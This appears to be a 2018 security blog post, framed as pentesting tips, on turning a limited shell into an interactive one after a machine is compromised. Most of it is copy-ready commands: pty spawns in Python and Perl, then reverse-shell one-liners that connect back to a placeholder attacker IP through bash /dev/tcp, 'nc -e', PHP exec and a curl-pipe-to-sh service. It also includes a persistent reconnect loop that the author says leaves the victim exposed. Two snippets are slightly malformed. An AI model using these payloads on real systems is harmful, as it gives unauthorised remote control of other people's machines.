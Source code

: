 ```yaml
---
title:    "Post-Exploitation: spawning a shell"
date:     2018-12-05
tags:     HackTheBox hacking tip
category:	Cybersecurity
comment:  sizes are 2000x750
header:
  image:    assets/images/2018-12-05-post-exploitation-spawning-shell/header.jpg
  teaser:   assets/images/2018-12-05-post-exploitation-spawning-shell/header.jpg
  caption:  "Photo credit: [**Unsplash**](https://unsplash.com)"
---
```


Once you have gained shell access on a machine, you will often find the prompt
extremely limited, especially if you have used manual exploitation. In these
cases, the shell often cannot perform basic tasks that you would expect from a
fully interactive shell prompt like Bash, or zsh. You will also be unable to run
intensive interactive commands such as the Vim text editor, or ncurses-based
programs.

In those situations, if the system is reasonably standard, you will be able to
quickly get a complete shell prompt by invoking a shell of your liking. I
generally try to spawn Bash, because it's shipped by default in most Linux and
some Unix systems (like macOS). Bash is reasonably powerful, complete, and well
documented. Bash also has additional features, like job control and
tab-completion that will only make your life that much easier as a pentester.

These are my favourite snippets, decreasing to the least favourites (or
difficult to remember).

# Python

Lots of Linux distributions will ship with Python by default. It's also very
easy to read, but being a relatively modern programming language, very outdated
servers might not have it installed.

```
$ python -c 'import pty; pty.spawn("/bin/bash")'
```

If Python is available, but Bash isn't installed, you can also try to spawn
the Bourne Shell (sh), which is included in even more Unices, but it's a bit
less feature-packed:

```
$ python -c 'import pty; pty.spawn("/bin/sh")'
```

# Perl

If Python is not available, Perl might be. It is much older than Python, and
although it's not very popular anymore, it used to be widely known in Linux
sysadmin circles, and soon would become the programming language of choice for
system administrators.

```
$ perl —e 'exec "/bin/sh";'
```

(As with Python, you can also try Bash).

# Spawning a shell directly

The system you're in might not have Python or Perl, but that doesn't mean you
won't get a shell. You can try simply calling the shell directly from your
session:

```
$ /bin/sh -i
```

# Reverse shells

You can also try to have the victim machine connect back to your computer for a
fully functional Bash shell.

All the following examples require you to have Netcat installed on the
attacker's computer. Then, you can run the following:

```
$ nc -l -p 8080 -vvv
```

This opens port 8080. Keep in mind the victim machine needs to be able to reach
your computer directly. So if you're in the same LAN, this trick will work, but
it will definitely not work behind a NAT without some port-forwarding. `-vvv` is
for added verbosity.

Once the Netcat socket is listening on the attacking machine, we can try the
following snippets on the victim:

## Bash magic

```
$ exec 5<>/dev/tcp/<YOUR_REACHABLE_IP_HERE>/8080
$ cat <&5 | while read line; do $line 2>&5 >&5; done
```

This very helpful [trick](https://www.gnucitizen.org/blog/reverse-shell-with-bash/)
will come in handy especially when the victim's computer does not have Netcat
installed but Bash is present.

## Netcat

Netcat is almost never present on production systems. But it's yet another
option, and it's easy to remember too.

```
$ nc -e /bin/sh <YOUR_REACHABLE_IP_HERE> 8888
```

## PHP with Bash

If the victim is running PHP, chances are high the system has PHP installed as
well. In that case, you can try to make the PHP server run the following line.

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<YOUR_REACHABLE_IP_HERE>/8080 0>&1'"); ?>
```

## Curl with shell.now.sh

[shell.now.sh](https://github.com/lukechilds/reverse-shell) is a free service
that can help you pivot connections. Being a third party, it might stop working
eventually, but because it is an HTTPS connection, it has better chances of
evading corporate firewalls or even IDSs.

```
$ curl https://shell.now.sh/<YOUR_REACHABLE_IP_HERE>:8080 | sh
```

If you run an invalid command, the shell will exit. To avoid this, you can force
it to keep reconnecting, but this will leave the machine exposed after you
finish pentesting it unless you kill the process or reboot the machine.

```
$ while true; do curl https://shell.now.sh/<YOUR_REACHABLE_IP_HERE>:8080 | sh; done
```

### PHP with shell.now.sh

```
<? php exec("curl https://shell.now.sh/<YOUR_REACHABLE_IP_HERE>:8080 | sh"); ?>
```

# Sources

In no particular order:
- <https://www.gnucitizen.org/blog/reverse-shell-with-bash/>
- <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>
- <https://medium.com/@hakluke/haklukes-ultimate-oscp-guide-part-3-practical-hacking-tips-and-tricks-c38486f5fc97>
- <https://netsec.ws/?p=337>
- <https://github.com/lukechilds/reverse-shell>
- <https://gist.github.com/rshipp/eee36684db07d234c1cc>
- <https://gist.github.com/roy4801/ad7146e3a0da80a922ca1dde0afd17b0>
